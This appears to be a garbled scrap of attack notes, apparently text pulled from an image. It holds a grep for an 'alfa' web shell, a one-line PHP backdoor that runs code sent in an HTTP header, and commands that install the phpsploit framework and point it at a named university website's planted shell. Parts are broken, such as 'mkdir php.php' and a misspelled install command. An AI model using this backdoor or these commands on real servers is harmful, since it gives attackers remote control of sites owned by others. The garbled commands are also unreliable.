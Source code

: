 pkill codes name alfa shell by terminal
======================

find . -type f -exec grep "alfa" '{}' \; -print
======================
mkdir php.php

<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
======================

git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit set TARGET https://sidesa.umpar.ac.id/php.php
apt install phpsloit
set TARGET https://sidesa.umpar.ac.id/php.php
exploit
phpsploit
